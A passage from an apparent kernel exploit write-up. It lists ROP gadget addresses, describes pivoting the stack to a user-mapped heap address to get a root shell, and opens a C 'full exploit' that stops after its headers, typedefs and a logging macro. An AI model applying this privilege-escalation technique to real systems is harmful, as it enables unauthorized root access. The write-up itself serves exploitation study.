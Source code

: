 ```
0xffffffff81287be2: leave ; ret
```

So luckily that there are two useful gadgets:

```
0xffffffff81ebebc1: add rsp , 0x30 ; ret
0xffffffff81287be2: pop rsp ; ret
```

I used these gadgets to stack pivot, change `$rsp` to a heap address that also is maped to our user page

So now we can easily ROP and get the root shell.

Full exploit code:
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <signal.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <fcntl.h>
#include <sched.h>
#include <stdint.h>

#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mount.h>
#include <sys/utsname.h>
#include <sys/wait.h>
#include <sys/msg.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/shm.h>
#include <sys/capability.h>

#include <linux/btrfs.h>
#include <linux/userfaultfd.h>
#include <linux/sysctl.h>
#include <linux/capability.h>
#include <linux/types.h>
#include <liburing.h>

typedef uint8_t u8;
typedef uint16_t u16;
typedef uint32_t u32;
typedef uint64_t u64;

typedef int8_t i8;
typedef int16_t i16;
typedef int32_t i32;
typedef int64_t i64;

#define DEBUG
#ifdef DEBUG

#define logOK(msg, ...) dprintf(STDERR_FILENO, "[+] " msg "\n", ##__VA_ARGS__)
```